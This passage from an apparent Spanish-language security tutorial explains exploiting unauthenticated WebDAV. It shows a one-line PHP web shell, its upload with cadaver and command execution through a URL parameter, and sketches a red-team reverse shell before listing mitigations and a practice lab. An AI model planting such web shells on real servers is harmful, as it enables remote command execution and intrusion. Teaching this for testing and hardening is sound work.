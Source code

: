 ```php
<?php system($_GET['cmd']); ?>
```

Lo subimos con `cadaver`:

```bash
cadaver http://localhost/
dav:/> put shell.php
```

Y lo ejecutamos en el navegador:

```
http://localhost/shell.php?cmd=whoami
```

Esto ejecutaría el comando `whoami` en el servidor, revelando el usuario actual.

---

## Ejemplo realista

Imaginemos que trabajamos en un equipo de red teaming y durante una auditoría interna encontramos que uno de los servidores de una empresa tiene habilitado WebDAV sin autenticación.

Descubrimos que podemos cargar archivos `.asp` y que el servidor está en Windows. Creamos una reverse shell en ASP (por ejemplo con `msfvenom`), la subimos al servidor y al acceder al archivo en el navegador, logramos una conexión reversa a nuestro equipo, ganando control sobre el sistema.

---

## Medidas de mitigación

Para protegernos ante estos vectores de ataque, debemos:

- Deshabilitar WebDAV si no se necesita.
    
- Configurar correctamente los permisos de lectura y escritura.
    
- No permitir la carga de archivos ejecutables como `.php`, `.asp`, `.jsp`, etc.
    
- Implementar autenticación y autorización fuertes.
    
- Monitorizar accesos y subir registros a un SIEM.
    
- Hacer pruebas periódicas con herramientas como `davtest` para verificar el endurecimiento del servidor.
    

---

## Recursos

Repositorio Docker con entorno vulnerable para practicar:

**WebDAV Vulnerable Docker**  [https://hub.docker.com/r/bytemark/webdav](https://hub.docker.com/r/bytemark/webdav)

---